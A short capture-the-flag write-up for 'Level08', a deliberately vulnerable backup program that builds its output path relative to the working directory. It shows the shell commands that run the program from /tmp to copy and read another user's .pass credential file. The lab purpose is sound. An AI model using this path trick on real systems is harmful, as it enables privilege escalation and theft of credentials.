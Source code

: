 # Level08

## the program

We have a program that creates a backup of the file passed as argument. It is backuped in the ./backup folder. We have permissions to read this backup.

## the goal

The goal is to provide the path to level09's .pass as an argument, in order to read its contents, but we've run into a problem:

```c
$ ./level08 /home/users/level09/.pass
ERROR: Failed to open ./backups//home/users/level09/.pass
```

In order to create the backup file, the program concatenates two strings: "./backup" and the argument. But as
the path ./backups/home/users/level09 do not exist, it can't create the backup file. And we don't have the rights
to create folders in the current directory.

```sh
$ mkdir -p ./backups/home/users/level09
mkdir: cannot create directory `./backups/home': Permission denied
```

The backup folder is accessed via a relative path which depends on the directory in which the program is run.
Moving to /tmp/ will solve the problem as we have writings rights there.

## the hack

```sh
$ cd /tmp/
$ mkdir -p backups/home/users/level09
$ ~/level08 /home/users/level09/.pass
$ cat backups/home/users/level09/.pass
```
